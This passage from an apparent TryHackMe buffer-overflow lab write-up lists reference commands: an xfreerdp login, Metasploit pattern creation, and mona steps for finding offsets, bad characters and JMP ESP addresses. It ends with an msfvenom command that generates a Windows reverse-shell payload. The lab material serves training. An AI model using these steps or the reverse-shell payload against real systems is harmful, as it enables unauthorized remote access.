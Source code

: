 ![49f1b60f4a406df4a7ec27ae5e868cc0.png](/assets/writeups/TryHackMe/BOFPrep/5b5558e9b28244c69fac2f0b73b994cc.png)

[Return to Table of Contents](#toc)

***

<div style="page-break-after: always; visibility: hidden"> \pagebreak </div>

## <a name=applications></a>List of Example Commands by Application

### RDP: 
`xfreerdp /u:admin /p:password /cert:ignore /v:10.10.11.33 /workarea`

### Metasploit:
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

### Mona:
Set Working Folder Path - `!mona config -set workingfolder c:\mona\%p`

Find EIP offset - `!mona findmsp -distance 1100`

Generate a Byte Array Excluding Bad Chars - `!mona bytearray -b "\x00\x09"`

Find Bad Characters - `!mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30`

Find JMP ESP spots Excluding Bad Chars - `!mona jmp -r esp -cpb "\x00\x23\x24\x3c\x3d\x83\x84\xba\xbb"`

Generate a Shellscript Excluding Bad Chars - `msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c`


